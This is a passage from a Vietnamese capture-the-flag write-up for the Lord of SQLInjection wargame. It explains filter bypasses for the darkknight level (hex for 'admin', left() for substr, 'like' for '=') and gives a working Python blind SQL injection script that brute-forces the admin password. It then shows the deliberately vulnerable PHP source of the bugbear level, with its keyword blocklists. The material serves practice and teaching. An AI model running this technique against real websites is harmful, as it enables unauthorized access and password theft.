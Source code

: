 filter: pw `'` &#x20;

no  `_ . () substr ascii =`

Câu này cũng brute force như các câu trên thay vì viết script ở pw thì lần này viết ở no mà no là int nên ta sẽ có payload kiểu như sau `no = 1|| 1 like 1` và `admin` sẽ phải đổi thành `hex` vì asscii bị filter , `substr` thành `left` , dấu `=` thành `like` => ta có payload như sau

```python
import requests
import string
url = 'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php'
char = string.printable
cookie = {'Cookie':'PHPSESSID=7ih6g2u8u6tdme1u61etcjhgb7'}
password =''
session = requests.session()
for i in range(1,20):
    for j in char:
        pass_1 = password + j
        print(pass_1)
        param = 'pw= 1&no= 1 || 1 like 1 %26%26 id like 0x61646d696e %26%26 left(pw,{}) like "{}"-- -'.format(i,pass_1)
        r = session.get(url , params = param , headers = cookie)
        if ('Hello admin' in r.text):
            password = password + j
            print(password)
            break
#0b70ea1f
```

## BUGBEAR

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```
